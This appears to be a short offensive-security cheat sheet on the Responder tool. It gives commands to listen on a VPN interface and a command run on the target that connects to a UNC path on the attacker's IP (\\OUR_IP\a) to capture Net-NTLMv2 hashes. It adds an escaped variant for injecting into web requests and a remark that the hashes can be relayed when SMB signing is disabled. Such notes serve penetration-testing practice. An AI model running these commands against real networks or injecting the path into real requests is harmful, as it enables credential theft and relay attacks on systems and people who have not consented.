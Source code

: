 ```yaml
---
tags:
  - tool
  - packet_capture
---
```

# responder

Capture connections

## Capabilities

```bash
# Listen for incoming requests
sudo responder -I tun0

# Include previously captured hashes
sudo responder -I tun0 -v
```

Capture `Net-NTLMv2` hashes by initiating a request via the following command on the target. These hashes can be relayed so long as SMB signing is disabled.

```powershell
dir \\OUR_IP\a
```

**Note:** Make sure to include escape characters when injecting in a web request

```
\\\\OUR_IP\a
```
